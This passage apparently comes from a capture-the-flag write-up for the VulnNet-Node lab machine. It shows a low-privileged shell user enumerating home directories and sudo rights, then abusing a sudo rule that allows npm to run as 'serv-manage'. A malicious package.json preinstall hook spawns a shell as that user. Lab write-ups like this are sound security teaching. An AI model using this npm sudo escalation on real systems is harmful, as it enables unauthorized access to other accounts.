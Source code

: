 There is no user flag in `/home/www/`, but the presence of `/home/serv-manage/` makes me thing I have to move laterally:

~~~
www@vulnnet-node:/home$ id
id
uid=1001(www) gid=1001(www) groups=1001(www)
www@vulnnet-node:/home$ ll
ll
total 16
drwxr-xr-x  4 root        root        4096 Jan 24 16:14 ./
drwxr-xr-x 23 root        root        4096 Jan 24 16:05 ../
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24 21:34 serv-manage/
drwxr-xr-x  7 www         www         4096 Jan 24 16:32 www/
www@vulnnet-node:/home$ ll www/
ll www/
total 40
drwxr-xr-x 7 www         www         4096 Jan 24 16:32 ./
drwxr-xr-x 4 root        root        4096 Jan 24 16:14 ../
lrwxrwxrwx 1 root        root           9 Jan 24 16:24 .bash_history -> /dev/null
-rw-r--r-- 1 www         www          220 Jan 24 16:14 .bash_logout
-rw-r--r-- 1 www         www         3771 Jan 24 16:14 .bashrc
drwx------ 3 www         www         4096 Jan 24 16:27 .config/
drwxrwxr-x 3 www         www         4096 Jan 24 16:32 .local/
drwxrwxr-x 5 serv-manage serv-manage 4096 Jan 24 16:28 .npm/
drwxrwxr-x 5 www         www         4096 May  1 07:36 .pm2/
-rw-r--r-- 1 www         www          807 Jan 24 16:14 .profile
drwxr-xr-x 5 www         www         4096 Jan 24 21:37 VulnNet-Node/
~~~

This assumption is also confirmed with privileges we have to run `npm` as `serv-manage`.

~~~
www@vulnnet-node:/home$ sudo -l
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) reveals that we can move laterally:

~~~
www@vulnnet-node:~$ mkdir ~/tmp
www@vulnnet-node:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
www@vulnnet-node:~$ sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
$ id
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
~~~
